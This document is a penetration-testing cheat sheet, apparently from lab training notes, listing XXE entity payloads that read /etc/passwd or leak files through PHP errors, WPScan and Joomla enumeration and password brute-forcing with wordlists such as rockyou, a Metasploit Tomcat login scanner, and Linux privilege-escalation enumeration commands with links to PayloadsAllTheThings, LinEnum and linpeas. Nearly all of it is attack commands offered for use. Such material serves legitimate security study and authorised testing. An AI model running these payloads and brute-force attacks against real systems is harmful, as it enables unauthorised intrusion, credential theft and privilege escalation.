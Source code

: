 Define External Entity to a URL: `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`

Define External Entity to a file path: `<!ENTITY xxe SYSTEM "file:///etc/passwd">`

Reading a file through a PHP error: `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`



# Wordpress

`sudo wpscan --url <http://domainnameoripaddress> --enumerate`

`sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>`


# Joomla

`droopescan scan joomla --url http://<domainnameoripaddress`

 `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>`


# Tomcat

Metasploit: `auxiliary/scanner/http/tomcat_mgr_login`




<span style="color:#33FFE3">PRIVILEGE ESCALATION</span>  
# Linux privilege escalation

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://github.com/rebootuser/LinEnum

https://github.com/sleventyeleven/linuxprivchecker

User Privileges: `sudo -l`, `sudo su -`, `sudo -u user /bin/echo Hello World!`, `su -`


Linenum: https://github.com/rebootuser/LinEnum

LINPEAS

See processes running as root: `ps aux | grep root`

Check the current user's Bash history: `history`

Find world-writeable directories: `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`

Find world-writeable files: `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`

Search for config files: `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`
